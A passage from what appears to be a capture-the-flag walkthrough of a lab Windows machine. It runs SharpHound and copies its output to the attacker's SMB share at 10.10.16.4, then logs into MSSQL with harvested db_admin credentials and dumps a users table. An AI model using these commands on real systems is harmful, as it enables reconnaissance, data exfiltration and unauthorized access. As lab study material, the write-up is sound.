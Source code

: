 Now let’s execute:

```bash
.\sharphound.exe -c all
```

To transfer back, let’s use a smb server:

```bash
#on attack
sudo impacket-smbserver share -smb2support . -user test -password test

#on target
net use \\10.10.16.4\share /user:test test
#Now we can just copy as normal
copy 20251015105944_BloodHound.zip \\10.10.16.4\share\bh.zip
```

Now let’s start bloodhound:

```bash
sudo neo4j start
bloodhound
```

We had to unzip the file first before uploading.

![image.png]({{ site.baseurl }}/assets/streamio/image%2035.png)

We also have the db_admin credential from before:

```bash
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
```

Let’s sign in:

```bash
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -y 30 -Y 30
```

We are in. Now let’s enumerate:

```bash
1> SELECT name FROM master.dbo.sysdatabases
2> go

------------------------------ 
master                         
tempdb                         
model
msdb
STREAMIO
streamio_backup

#Selecting a DB
1> USE streamio_backup
2> go

#Show tables
1> SELECT table_name FROM streamio.INFORMATION_SCHEMA.TABLES
2> go

table_name                     
------------------------------
movies
users

#Select all Data from Table "users"
1> SELECT * FROM users
2> go
```